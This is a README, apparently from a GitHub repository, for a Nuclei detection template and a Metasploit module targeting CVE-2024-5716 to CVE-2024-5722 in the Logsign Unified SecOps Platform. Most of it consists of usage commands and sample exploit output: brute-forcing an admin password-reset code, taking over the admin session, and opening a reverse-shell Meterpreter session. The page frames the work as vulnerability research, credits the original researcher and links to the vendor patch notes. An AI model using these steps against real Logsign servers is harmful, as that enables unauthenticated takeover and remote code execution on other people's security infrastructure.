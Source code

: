 # Logsign Unified SecOps Platform: Detection CVE-2024-5716 to CVE-2024-5722 - Exploiting CVE-2024-5716 and CVE-2024-5717, Proof of Concept (PoC)

## Explanation:

This repository contains Nuclei template for detecting multiple vulnerabilities in Logsign Unified SecOps Platform. The template are designed to identify the following vulnerabilities:

- **ZDI-CAN-24164 > CVE-2024-5716**: Logsign Unified SecOps Platform Authentication Bypass Vulnerability
- **ZDI-CAN-24165 > CVE-2024-5717**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24166 > CVE-2024-5718**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24167 > CVE-2024-5719**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24168 > CVE-2024-5720**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24169 > CVE-2024-5721**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24170 > CVE-2024-5722**: Logsign Unified SecOps Platform HTTP API Hard-coded Cryptographic Key Remote Code Execution Vulnerability

The metasploit exploit phase will be updated...

## Usage

To use these template with Nuclei, follow the example steps below:

### Clone the repository:

```sh
git clone https://github.com/j4nk3/Logsign-RCE.git
cd Logsign-RCE
```
### Usage with Nuclei:

**Single Target:**
```sh
nuclei -u https://target.com -t logsign-unauth-bypass-rce.yaml -nh
```
**Multiple Target:**
```sh
nuclei -l urls.txt -t logsign-unauth-bypass-rce.yaml -nh
```

### Usage with Metasploit
```
# Step 1: Copy the .rb file to the Metasploit modules directory
sudo cp logsign-unauth-rce.rb /usr/share/metasploit-framework/modules/auxiliary/exploit/

# Step 2: Start Metasploit
msfconsole

# Step 3: Load the module
msf6 > use auxiliary/exploit/logsign-unauth-rce

# Step 4: Set the required options
msf6 auxiliary(exploit/logsign-unauth-rce) > set TARGETURI /
msf6 auxiliary(exploit/logsign-unauth-rce) > set USERNAME admin
msf6 auxiliary(exploit/logsign-unauth-rce) > set LHOST 0.0.0.0
msf6 auxiliary(exploit/logsign-unauth-rce) > set LPORT 1337
msf6 auxiliary(exploit/logsign-unauth-rce) > set RHOSTS 192.168.1.10
msf6 auxiliary(exploit/logsign-unauth-rce) > set RPORT 443

# Step 5: Run the exploit
msf6 auxiliary(exploit/logsign-unauth-rce) > run

[*] Resetting admin password using CVE-2024-5716...
[*] Forget password request sent for user: admin
[*] Successfully brute-forced reset code: 123456, verification code: 7890
[*] Password successfully reset to: Hkdi2983jdlGfdLS
[*] Successfully logged in with the new password. Session cookie: PHPSESSID=abcd1234...
[*] Sending reverse shell payload...
[*] Exploit completed, waiting for session...

[*] Meterpreter session 1 opened (192.168.1.100:1337 -> 192.168.1.10:443) at 2024-08-12 12:34:56 +0000
msf6 auxiliary(exploit/cve_2024_5716_5717_pre_auth_rce) >

```

Many thanks to @mdisec (Mehmet Ince) for the security research and critical finding detections performed on this product.

## Contributing
Feel free to submit issues or pull requests if you find any bugs or have suggestions for improvements.

## License
This project is licensed under the MIT License.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)
